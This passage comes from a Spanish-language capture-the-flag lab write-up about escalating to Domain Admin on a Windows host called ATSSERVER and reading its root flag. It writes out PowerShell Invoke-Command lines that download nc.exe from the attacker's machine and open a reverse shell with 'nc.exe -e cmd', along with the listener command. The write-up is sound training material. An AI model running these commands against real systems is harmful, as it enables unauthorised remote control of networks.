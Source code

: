 Verificamos que antes de que sea ejecutado el script, el usuario que disponemos _**awallace**_ dispone de los siguientes grupos de acceso.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { net user awallace /domain }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3060_vmware_JzwnLmwTdm.png" alt=""><figcaption></figcaption></figure>

Al ejecutarse el script pasado los 5 minutos, comprobamos que hemos sido añadidos al grupo "Site\_Admin", y como este grupo forma parte del grupo "Domain Admins", también disponemos de privilegios de Domain Admins.

Verificamos que tenemos acceso para comprobar el contenido de la flag de _**root.txt**_.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { net user awallace /domain }

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $Cred -ScriptBlock { type C:\Users\Administrator\Desktop\root.txt }
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3061_vmware_EIx5szUKvv.png" alt=""><figcaption></figcaption></figure>

Para poder ganar acceso a la máquina para disponer de control remoto en una Shell y no a través de este método de PowerShell Web Acces mediante ScripBlock, lo que realizaremos es lo siguiente:

Nos compartiremos el binario de _**nc.exe**_ desde nuestra Kali y lo descargaremos en _**ATSSERVER**_ mediante "wget".

Una vez lo tengamos en el equipo víctima, procederemos a ejecutar para entablarnos una Reverse Shell a nuestra Kali.

{% code overflow="wrap" %}
```powershell
Invoke-Command -ComputerName ATSSERVER -Credential $Cred -ScriptBlock { wget 10.10.16.7/nc.exe -outfile \programdata\nc.exe }

Invoke-Command -ComputerName ATSSERVER -Credential $Cred -ScriptBlock { \programdata\nc.exe -e cmd 10.10.16.7 443}
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/3065_vmware_TWh6BnAl4v.png" alt=""><figcaption></figcaption></figure>

Verificamos que estando nosotros en escucha por el puerto especificado, hemos ganado acceso al equipo _**ATSSERVER**_ mediante la Reverse Shell con _**nc.exe**_.

```bash
rlwrap -cAr nc -nlvp 443
```

<figure><img src="../../../../../.gitbook/assets/3066_vmware_ThTwrDKXUb.png" alt=""><figcaption></figcaption></figure>
